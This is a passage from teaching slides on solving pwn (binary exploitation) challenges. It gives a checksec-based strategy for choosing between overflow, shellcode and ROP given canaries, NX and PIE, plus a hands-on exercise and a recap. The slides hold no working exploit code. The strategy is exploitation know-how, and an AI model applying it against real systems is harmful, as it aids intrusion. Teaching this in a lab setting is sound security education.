- PIE: if enabled, code address is randomized and ROP is more difficult

</div>

</div>

---

## Solving pwn challenges - understanding protection measures

Example strategy for solving exploitation challenge
(considering only stack-based buffer overflow)

1. Run `pwn checksec`
2. If it has stack canary, then stack-based overflow (overwriting return address) may not work; otherwise, proceed to 3.
3. If NX is disabled (or it has RWX segments), then shellcode may be used; otherwise, proceed to 4.
4. If PIE is disabled, then ROP may be used; otherwise, consider leaking address or more advanced techniques.

---
<!-- _class: handson -->

## :memo: hands-on (8): understanding protection measures

- Use `pwn checksec` to see protection measures for each binary (`chal1` .. `chal6`).
- Discuss what methods can be used to exploit the binary, based on `checksec` result.
- Try to use shellcode for NX-bit enabled binary and see what happens.

Takeaway
- It is important to identify binary type and protection measures first, to determine strategy. If an inappropriate exploitation technique is used, exploit will be unsuccessful.
- Protection measures contributes to block exploitation to some extent. It is important to adopt several protection measures for resilience to several attacks.

---

## What we learned in this session

- Shellcode basics
- ROP (return oriented programming) basics
- Using pwntools to simplify shellcode / ROP building
- Some advanced topics about shellcode and ROP
- Inspection of protection measures to decide an exploitation strategy

---
<!-- _class: invert -->

## Thank you for listening!

Questions? :slightly_smiling_face:

---
<!-- _class: invert -->

These slides are licensed under Create Commons
Attribution 4.0 International License (CC-BY 4.0)

<!-- see https://creativecommons.org/about/downloads/ for logo -->

Created/Modified by:
- 2021: Fukutomo Nakanishi
